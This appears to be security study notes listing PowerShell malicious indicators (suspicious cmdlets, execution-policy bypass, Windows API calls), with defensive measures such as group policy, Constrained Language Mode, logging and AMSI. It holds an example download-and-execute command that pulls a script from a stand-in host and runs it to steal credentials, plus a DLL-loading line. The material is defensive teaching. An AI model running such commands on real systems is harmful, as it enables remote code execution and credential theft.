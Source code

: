 # POWERSHELL MALICIOUS INDICATORS

There are numerous exploit frameworks to leverage PowerShell functionality, such as PowerShell Empire, PowerSploit, Metasploit, and Mimikatz. **Some suspicious indicators** for PowerShell execution include the following:

-   **Cmdlets** such as Invoke-Expression, Invoke-Command, Invoke-WMIMethod, New-Service, Create-Thread, Start-Process, and New-Object can indicate an attempt to run some type of binary shellcode. This is particularly suspicious if combined with a DownloadString or DownloadFile argument. One complication is that cmdlets can be shortened, assisting obfuscation. For example, Invoke-Expression can be run using IEX.

powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://badsite.foo/DoEvil.ps1'); Do-Evil -StealCreds"

-   **Bypassing execution** policy can also act as an indicator. The PowerShell code may be called as a Base64 encoded string (-enc argument) or may use the -noprofile or -ExecutionPolicy Bypass arguments.
-   **Using system calls** to the Windows API might indicate an attempt to inject a DLL or perform process hollowing, where the malicious code takes over a legitimate process:

[Kernel32]::LoadLibrary("C:\Users\Foo\AppData\Local\Temp\doevil.dll")

-   **Using another type of script** to execute the PowerShell is also suspicious. For example, the attacker might use JavaScript code embedded in a PDF to launch PowerShell via a vulnerable reader app.

The big problem with PowerShell indicators is distinguishing them from legitimate behavior. The following [[techniques]] can be used to assist with this:

-   Use **group policy to restrict** execution of PowerShell to trusted accounts and hosts.
-   Use **group policy execution** control to run scripts only from trusted locations.
-   Consider use of Constrained Language Mode ([devblogs.microsoft.com/powershell/powershell-constrained-language-mode](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/)) and signed scripts to limit the ability of exploit code to run on high-value target systems.
-   Use **PowerShell logging** ([docs.microsoft.com/en-us/powershell/scripting/windows-powershell/wmf/whats-new/script-logging?view=powershell-7](https://docs.microsoft.com/en-us/powershell/scripting/windows-powershell/wmf/whats-new/script-logging?view=powershell-7)) and the Antimalware Scan Interface ([docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps](https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps)) to detect and prevent obfuscated and suspicious code.
-   Prevent the use of **old PowerShell** versions to mitigate the use of a downgrade attack to bypass access controls.

Symantec's white paper contains a useful introduction to PowerShell exploits ([docs.broadcom.com/doc/increased-use-of-powershell-in-attacks-16-en](https://docs.broadcom.com/doc/increased-use-of-powershell-in-attacks-16-en)).
# BASH AND PYTHON MALICIOUS INDICATORS

Most of the web runs on Linux, and Linux has proven remarkably resilient to attacks (meaning that it is able to withstand or recover quickly from difficult situations), given the high-value of the assets that depend on it. Most exploits of Linux systems depend on weak configuration, and/or vulnerabilities in web applications. In Linux, the command line is usually Bourne Again Shell ([[Bash]]). Many Linux systems have Python enabled as well. Python scripts or batch files of bash commands can be used for automation tasks, such as backup, or for malicious purposes.
